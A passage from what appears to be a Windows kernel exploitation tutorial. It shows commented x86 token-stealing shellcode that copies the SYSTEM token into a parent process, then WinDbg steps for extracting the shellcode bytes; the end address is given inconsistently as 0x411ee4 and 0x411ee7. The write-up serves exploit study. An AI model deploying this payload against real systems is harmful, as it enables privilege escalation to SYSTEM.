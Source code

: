 ```c
    add eax, 0xf8                  // Point EAX to the _EX_FAST_REF field ( The token field ) 
    mov eax, [eax]                 // Move the token value into eax
    and al, 0xf8                   // And off the refcount bits
    mov edi, eax                   // Store SYSTEM token in edi
    mov eax, ecx                   // Set eax back to the current processes _EPROCESS structure
    lea eax, DWORD PTR [eax+0xb8]  // Move _LIST_ENTRY into eax 
    
    findParent:
    mov eax, DWORD PTR [eax+0x4]   // Move backward in the active process list using the Blink
    mov ebx, DWORD PTR [eax-0x4]   // Get the Unique Process Id (PID)
    cmp ebx, esi                   // Compre the pid of the _EPROCESS structure against the PID of
                                   // the parent process
    jne findParent                 // If they arent equal continue looping through the _EPROCESS 
                                   // structures
    sub eax, 0xb8                  // If they are equal you have found the _EPROCESS structure for
                                   // the parent process, point EAX to the start of that _EPROCESS
                                   //  structure
    add eax, 0xf8                  // Point EAX to the _EX_FAST_REF field ( The token field ) 
    mov [eax], edi                 // Write the token from the SYTEM _EPROCESS structure that we
                                   // stored in edi into the address of the token structure in the
                                   // parent processes token field.
    popad                          // Restore all the registers to what they were before the shellcode

    mov ecx, eax                   // Existing epilogue cleanup
    mov eax, ecx                   // Existing epilogue cleanup
    pop ebp                        // Existing epilogue cleanup
    ret 8                          // Existing epilogue cleanup
  }
}

int main()
{
    build_shellcode();
}
```
<br>
Then once you build your executable load it up into windbg as a dump file you 
can disassembly the build\_shellcode function and find the address when your 
shellcode starts:  
<br>
```
u build_shellcode L40
Compiling_x86_asm!build_shellcode 
00411e70 55              push    ebp
00411e71 8bec            mov     ebp,esp
00411e73 81ecc0000000    sub     esp,0C0h
00411e79 53              push    ebx
00411e7a 56              push    esi
00411e7b 57              push    edi
00411e7c 8bfd            mov     edi,ebp
00411e7e 33c9            xor     ecx,ecx
00411e80 b8cccccccc      mov     eax,0CCCCCCCCh
00411e85 f3ab            rep stos dword ptr es:[edi]
00411e87 60              pushad
00411e88 64a120000000    mov     eax,dword ptr fs:[00000020h]
00411e8e 8b4004          mov     eax,dword ptr [eax+4]
00411e91 8b8050010000    mov     eax,dword ptr [eax+150h]
```
<br>
`0x411e87` is where our shellcode starts and it ends at `0x411ee4`, if we 
subtract the start from the end address we gets its size: `0x411ee7 - 0x411e87 
= 60` and so if we just display 60 bytes starting at the start address of the 